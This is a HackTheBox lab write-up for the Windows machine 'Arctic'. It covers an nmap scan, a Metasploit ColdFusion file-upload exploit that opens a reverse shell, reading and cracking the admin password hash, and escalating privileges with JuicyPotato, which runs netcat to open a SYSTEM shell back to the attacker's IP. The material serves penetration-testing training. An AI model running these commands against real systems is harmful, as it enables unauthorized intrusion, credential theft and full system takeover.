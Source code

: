 # Arctic | HackTheBox

### 1. Scan
```bash
┌─[htb-jib1337@htb-zdixutvzmf]─[~]
└──╼ $sudo nmap -A -p- -T4 10.129.112.21
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 04:01 UTC
Nmap scan report for 10.129.112.21
Host is up (0.18s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   183.63 ms 10.10.14.1
2   183.78 ms 10.129.112.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 304.33 seconds
```
The machine is Windows, and only has port 8500 open aside from RPC ports 135 adn 49154. 8500 is known to be commonly used for Adobe Coldfusion.

### 2. Enumerate
From a browser, the ColdFusion admin interface login page is found at: http://10.129.112.21:8500/CFIDE/administrator/.  
There are also a number of files readable from the index, including coldfusion documentation. From here, and additionally from reading other files in the web server index, note the version of CF is MX8. There is potential for a arbritary file upload here through upload.cfm.

### 3. Get a shell
There is a metasploit module for this but it won't work out the box as the server is very slow to respond to requests. Need to increase the timeout.
```bash
msf6 exploit(windows/http/coldfusion_fckeditor) > set HttpClientTimeout 1000
HttpClientTimeout => 1000.0
msf6 exploit(windows/http/coldfusion_fckeditor) > options

Module options (exploit/windows/http/coldfusion_fckeditor):

   Name           Current Setting                                                Required  Description
   ----           ---------------                                                --------  -----------
   FCKEDITOR_DIR  /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/c  no        The path to upload.cfm
                  fm/upload.cfm
   Proxies                                                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.129.112.21                                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          8500                                                           yes       The target port (TCP)
   SSL            false                                                          no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal Windows Target


msf6 exploit(windows/http/coldfusion_fckeditor) > run

[*] Started reverse TCP handler on 10.10.14.2:9999 
[*] Sending our POST request...
[*] Upload succeeded! Executing payload...
[*] Command shell session 1 opened (10.10.14.2:9999 -> 10.129.112.21:49380) at 2021-06-05 04:51:05 +0000

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

### 3. Get the ColdFusion password
The big first thing to do once getting a shell is to pull the coldfusion admin password from password.properties. This is where the hashed password is kept.
```bash
C:\ColdFusion8\lib>type password.properties
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```
This password cracks online to `happyday`.

### 4. Enumerate from user
Ran systeminfo.
```shell
C:\>systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          6/6/2021, 2:57:31 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 297 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.203 MB
Virtual Memory: In Use:    844 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.112.21
                                 [02]: fe80::3969:bb8b:7a7b:e953
                                 [03]: dead:beef::3969:bb8b:7a7b:e953
```
The machine is an unpatched Windows 2008 Server. There's going to be a lot of vulnerabilities.
Additionally it looks like the current user has the SeImpersonate Privilege.
```bash
C:\Windows\Temp>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### 5. Prepare an exploit
To abuse the SeImpersonatePrivilage, use RottenPotato. Copy the nessecary files to the machine over SMB. The exploit will leverage a COM object to run a command as SYSTEM. In this case it will run netcat and connect back to the attacker machine.
```shell
C:\Windows\Temp>copy \\10.10.14.2\share\JuicyPotato.exe .\jp.exe
        1 file(s) copied.

C:\Windows\Temp>copy \\10.10.14.2\share\nc64.exe .\nc.exe
        1 file(s) copied.
```

### 6. Escalate to SYSTEM
Run the binary with the nessecary arguments.
```shell
C:\Windows\Temp>.\jp.exe -l 1337 -p C:\windows\system32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.2 9998" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
Catch the shell in a listener.
```shell
┌─[htb-jib1337@htb-zdixutvzmf]─[~/smb]
└──╼ $nc -lvnp 9998
Listening on 0.0.0.0 9998
Connection received on 10.129.61.22 49200
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
